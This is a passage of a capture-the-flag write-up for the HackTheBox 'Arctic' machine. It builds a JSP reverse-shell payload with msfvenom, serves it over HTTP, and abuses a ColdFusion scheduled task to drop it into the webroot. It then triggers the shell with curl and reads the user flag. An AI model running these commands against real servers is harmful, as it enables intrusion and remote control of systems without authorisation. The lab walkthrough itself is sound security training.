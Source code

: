 ```bash
msfvenom -l payload | grep jsp
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Arctic]
└─$ msfvenom -l payload | grep jsp
    java/jsp_shell_bind_tcp                             Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                          Connect back to attacker and spawn a command shell
```

```bash
# host
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=3333 > payload.jsp
# set up http server
python3 -m http.server 80
# set up a listener
nc -lnvp 3333
```

I’ll clikc Schedule New Task, and provide:

-   `Task Name`: any thing we want `anything I want`
-   `URL`: the url we download file `http://10.10.14.14/payload.jsp`
-   `Publish`: Check the “Save output to a file” box.
-   `File`: The path I got from the mappings tab, plus the name of the shell and path. `C:\ColdFusion8\wwwroot\CFIDE\payload.jsp`

![[Arctic-13.png]]

After setting up the scheduled task, I hit the green “start” button.

![[Arctic-14.png]]

Execution of this Scheduled Task downloaded the shell. 

![[Arctic-15.png]]
I then browsed or use curl to access this shell:
```bash
curl http://10.10.10.11:8500/CFIDE/payload.jsp
```
and it triggered the user-level reverse shell.
```cmd
whoami
hostname
```

![[Arctic-16.png]]

we get the shell, very nice. Let's type user's flag.

```cmd
cd C:\Users\tolis\Desktop
dir
type user.txt
```
